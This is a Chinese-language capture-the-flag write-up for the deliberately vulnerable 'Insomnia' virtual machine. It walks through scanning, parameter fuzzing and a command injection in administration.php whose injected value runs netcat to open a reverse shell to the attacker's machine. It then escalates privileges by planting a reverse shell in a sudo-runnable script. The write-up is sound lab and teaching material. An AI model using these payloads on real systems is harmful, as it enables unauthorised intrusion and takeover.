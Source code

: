 # Insomnia

:::note

[Linux VM] [Tested on VirtualBox] created by || alienum

⏲️ Release Date // 2021-01-28

✔️ MD5 // f6808bfec80c7348aeb449d9f2305bbd

☠ Root // 102

💀 User // 108

📝Notes //
This admin is very careless.

:::

## 靶机启动

![靶机启动](img/image_20231212-201200.png)

靶机 IP：

```plaintext
192.168.56.112
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.112
Host is up (0.00054s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8080/tcp open  http    PHP cli server 5.5 or later (PHP 7.3.19-1)
|_http-title: Chat
|_http-open-proxy: Proxy might be redirecting requests
MAC Address: 08:00:27:D8:30:07 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
```

## 探测 web 服务

尝试直接访问

![访问 /](img/image_20231220-202045.png)

发现类似于一个在线聊天平台，并且经过探测，发现存在 XSS 攻击的可能性

尝试进行目录扫描，得到以下路径

```plaintext
[20:22:07] 200 -   65B  - /administration.php
[20:22:10] 200 -    2KB - /chat.js
[20:22:25] 200 -   20B  - /start.sh
```

## 对 `/administration.php` 文件进行 fuzz 攻击

```bash
┌─[✗]─[randark@randark-Parrot]─[~/tmp]
└──╼ $wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hh 65 'http://192.168.56.112:8080/administration.php?FUZZ=test'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.56.112:8080/administration.php?FUZZ=test
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000485:   200        2 L      12 W       69 Ch       "logfile"

Total time: 2.479255
Processed Requests: 951
Filtered Requests: 950
Requests/sec.: 383.5828
```

发现存在参数口：`logfile`

经过尝试，其可以执行命令注入

```plaintext
http://192.168.56.112:8080/administration.php?logfile=;nc%20192.168.56.102%209999%20-e%20/bin/bash;
```

成功得到 shell 会话

```bash
┌─[randark@randark-Parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[20:29:03] Welcome to pwncat 🐈!                                                                                                                                                                                            __main__.py:164
[20:29:45] received connection from 192.168.56.112:47920                                                                                                                                                                         bind.py:84
[20:29:46] 192.168.56.112:47920: registered new host w/ db                                                                                                                                                                   manager.py:957
(local) pwncat$ back
(remote) www-data@insomnia:/var/www/html$ whoami
www-data
(remote) www-data@insomnia:/var/www/html$
```

## 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for www-data on insomnia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on insomnia:
    (julia) NOPASSWD: /bin/bash /var/www/html/start.sh
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/newgrp
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

由于 `julia` 用户可以在无需密码的情况下执行 `/var/www/html/start.sh` 文件，并且 `/var/www/html/start.sh` 文件是 `www-data` 用户可以控制的，于是存在提权可能性

将 bash 反弹 shell 的 poc 写入 `/var/www/html/start.sh` ，然后执行

```bash
sudo -u julia /bin/bash /var/www/html/start.sh
```

即可收到反连的shell会话

```bash
┌─[randark@randark-Parrot]─[~/tmp]
└──╼ $pwncat-cs -lp 8888
[20:35:57] Welcome to pwncat 🐈!                                                                                      __main__.py:164
[20:38:27] received connection from 192.168.56.112:55218                                                                   bind.py:84
[20:38:27] 192.168.56.112:55218: registered new host w/ db                                                             manager.py:957
(local) pwncat$ back
(remote) julia@insomnia:/var/www/html$ whoami
julia
(remote)
```

## user pwned

```bash
(remote) julia@insomnia:/home/julia$ cat user.txt 

~~~~~~~~~~~~~\
USER INSOMNIA
~~~~~~~~~~~~~
Flag : [c2e285cb33cecdbeb83d2189e983a8c0]
```

:::warning

此靶机的服务极容易被打挂掉，如果前面修改了 `/var/www/html/start.sh` 的文件内容，会导致即使靶机重启后也无法启动web服务，导致死题

:::

后续得到 `julia` 的权限之后，可以通过计划任务来进行进一步的提权

## root pwned

```plaintext title="/root/root.txt"

~~~~~~~~~~~~~~~\
ROOTED INSOMNIA
~~~~~~~~~~~~~~~
Flag : [c84baebe0faa2fcdc2f1a4a9f6e2fbfc]

by Alienum with <3
```